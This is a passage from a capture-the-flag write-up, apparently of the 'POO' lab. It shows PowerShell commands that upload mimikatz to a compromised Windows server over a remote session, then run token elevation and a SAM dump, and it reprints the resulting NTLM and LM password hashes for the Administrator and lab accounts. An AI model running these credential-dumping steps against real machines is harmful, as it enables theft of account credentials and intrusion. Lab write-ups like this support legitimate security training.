 Flag: `POO{4882bd2ccfd4b53...}`

### Turning up the heat with mimikatz

Since we have local admin privs on the server we will upload mimikatz to find some passwords in memory:

```
PS C:\Users\snowscan> $session = new-pssession -computername [dead:babe::1001] -credential $Credential
PS C:\Users\snowscan> copy-item -tosession $session -path c:\users\snowscan\downloads\mimikatz.exe -destination c:\temp
PS C:\Users\snowscan> copy-item -tosession $session -path c:\users\snowscan\downloads\mimidrv.sys -destination c:\temp
PS C:\Users\snowscan> copy-item -tosession $session -path c:\users\snowscan\downloads\mimilib.dll -destination c:\temp
```

There's a glitch running mimikatz.exe from our WinRM Sessinon, it keeps scrolling the screen and we can't input anything.

So we'll just issue all commands on one line instead using `.\mimikatz.exe token::elevate lsadump::sam exit`

We can grab the local account hashes but we are already local admin so these are pretty much useless.

```
mimikatz(commandline) # lsadump::sam
Domain : COMPATIBILITY
SysKey : 6dcfa5e3811b05c0a5206da6384f406f
Local SID : S-1-5-21-158512341-328150952-995267585

SAMKey : 03229f5d2ecab8b1cc95959c14856ded

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a6678287c3e811f1eaef2f1986da157a
    lm  - 0: 252720cc3ea62ef269fe2d0bce3dbad5
    ntlm- 0: a6678287c3e811f1eaef2f1986da157a
    ntlm- 1: 39b00baccb2ec3b25f175de4d5371709

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000003ea (1002)
User : POO_PUBLIC00
  Hash NTLM: 42cc6a0e40743e9cb29411a68a4513c0
    lm  - 0: 4a3d95f55be191afc9efe81330d1d01d
    ntlm- 0: 42cc6a0e40743e9cb29411a68a4513c0

RID  : 000003eb (1003)
User : POO_PUBLIC01
  Hash NTLM: 690c61db0425d35b3a1cc6cd9a7c6e9b
    lm  - 0: f6767667be6b0cdc2d689cc975259342
    ntlm- 0: 690c61db0425d35b3a1cc6cd9a7c6e9b

RID  : 000003ec (1004)
User : POO_PUBLIC02
  Hash NTLM: 7e234179207ba2f0aac8ef8097763689
    lm  - 0: 87d54ac6f13680f67e9acea7e2a63894
    ntlm- 0: 7e234179207ba2f0aac8ef8097763689

RID  : 000003ed (1005)
```